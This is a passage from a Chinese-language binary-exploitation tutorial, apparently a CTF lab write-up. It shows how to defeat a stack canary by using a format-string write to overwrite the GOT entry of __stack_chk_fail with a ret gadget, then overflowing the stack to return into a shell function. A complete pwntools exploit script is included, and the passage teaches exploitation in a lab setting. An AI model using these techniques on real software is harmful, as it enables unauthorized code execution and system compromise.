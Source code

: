 ```cpp
io.recv()
#io.recv()

io.interactive()
```


### **3.2劫持__stack_chk_fail示例**
在`__stack__chk_fail`函数的plt地址附近找到一条ret指令。
让程序即使出错也不abort，从而实现BOF利用，return 到getshell中即可。
我们已知`__stack__chk_fail`的plt地址为:0x8048450,在没有lazy binding前它中存放的应该时plt的一条指令的地址，我们就在这附近搜索，寻找ret指令，或者其他相关指令


在0x0804840E找到一条ret指令
我们利用格式化字符串漏洞更改got表为该地址即可

```python
#!/usr/bin/env python

from pwn import *

context.binary = 'ex2'
#context.log_level = 'debug'
io = process('./ex2')
elf =ELF('./ex2')

get_shell = 0x804859d
stack_failed_addr = elf.got['__stack_chk_fail']
log.info("stack_failed_addr:"+hex(stack_failed_addr))
io.recvuntil("Hello Hacker!\n")

# hijack GOT['__stack_chk_fail'] to ret
payload = p32(stack_failed_addr)+(0xE-0x4)*"A"+"%6$hhn"
io.sendline(payload)

io.recvline()

payload = "\x90"*116+p32(get_shell)

io.send(payload)

io.recv()
io.recv()

io.interactive()
```





